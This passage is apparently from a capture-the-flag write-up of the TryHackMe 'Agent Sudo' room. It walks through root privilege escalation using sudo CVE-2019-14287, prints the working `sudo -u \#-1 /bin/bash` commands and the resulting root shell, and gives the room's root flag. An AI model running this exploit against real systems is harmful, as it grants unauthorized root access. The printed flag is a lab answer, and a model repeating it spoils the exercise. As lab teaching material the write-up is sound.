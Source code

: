 
b) `What is the incident of the photo called?`

I did a reverse image search for the alien photo found and its name is `Roswell alien autopsy`.



### Privilege escalation
* Enough with the extraordinary stuff? Time to get real.

a) `CVE number for the escalation`
* cve-2019-14287

This is where the version of sudo becomes important. Doing some research, I found a reported vulnerability in this version of sudo that allows a nonprivileged user escalate themselves to the root user. This vulnerability also exploits the current user's permissions. Recall that we saw that user james can run /bin/bash but not as a root user. Well, this vulnerability lets us run /bin/bash as the root user by setting the user id to `-1` or `0xffffffff`.
```
james@agent-sudo:/$ sudo -u \#$((0xffffffff)) /bin/bash
root@agent-sudo:/# 

```

And boom! I'm in! As a side note, the below command is the same exact exploit just represented slightly differently. 
`sudo -u \#-1 /bin/bash`

b) `What is the root flag?`
* b53a02f55b57d4439e3341834d70c062

Let's finish up this challenge...
```
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R

```
c) `(Bonus) Who is Agent R?`
* DesKel

